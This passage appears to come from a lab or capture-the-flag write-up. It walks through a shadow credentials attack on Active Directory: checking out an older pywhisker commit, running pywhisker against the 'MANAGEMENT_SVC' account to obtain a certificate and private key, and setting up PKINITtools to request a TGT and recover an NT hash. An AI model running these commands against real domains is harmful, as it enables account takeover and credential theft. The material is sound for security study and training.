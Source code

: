 ##### Finding a previous pywhisker commit prior to breaking changes and using that: {#finding-a-previous-pywhisker-commit-prior-to-breaking-changes-and-using-that}

-   **Click "Commits"**:
    -   {{< figure src="/ox-hugo/2024-11-06-102950_.png" >}}

-   **Find the commmit we want**:
    -   {{< figure src="/ox-hugo/2024-11-06-103053_.png" >}}
    -   Click on it.

-   **Grab the full commit hash**:
    -   {{< figure src="/ox-hugo/2024-11-06-103200_.png" >}}

-   **Check it out**:
    -   `git checkout -f ec30ba5759d57ead54341f58289090a9dc01249a`
-   **I found the commit that was before the breaking changes to envs**:
    -   `git checkout -f ec30ba5759d57ead54341f58289090a9dc01249a`
    -   {{< figure src="/ox-hugo/2024-11-06-102455_.png" >}}


#### Using pywhisker to perform our shadow credentials attack: {#using-pywhisker-to-perform-our-shadow-credentials-attack}

-   **I run pywhisker and it works**:
    -   `python3 /home/kali/windowsTools/pywhisker/pywhisker.py -d $domain -u $user -p $pass --target "MANAGEMENT_SVC" --action "add" --filename newCert --export PEM`
    -   {{< figure src="/ox-hugo/2024-11-06-104658_.png" >}}
        -   We get our `newCert_cert.pem` &amp; our `newCert_priv.pem` which we will use next
    -   +Note+: If this fails and you get the below error then you should follow the steps of granting Judith the ability to add users to groups and the subsequent steps. I believe there is some sort of cleanup rule in place which cleans up ACL's.
        -   {{< figure src="/ox-hugo/2024-11-06-104843_.png" >}}

-   **Looking at pywhiskers readme it says**:

    > Once the values are generated and added by `pyWhisker`, a `TGT` can be request with `gettgtpkinit.py` The NT hash can then be recovered with `getnthash.py`.


#### Installing PKINIT: {#installing-pkinit}

-   **Clone repo**:
    -   `git clone https://github.com/dirkjanm/PKINITtools.git`

-   **Setup venv**:
    ```shell
        #Navigate into the repo:
        cd pkinit
        #Create the venv:
        python -m venv pk
        #Activate the venv:
        source pk/bin/activate
        #Install our dependencies in the venv:
        pip install -r requirements.txt
    ```
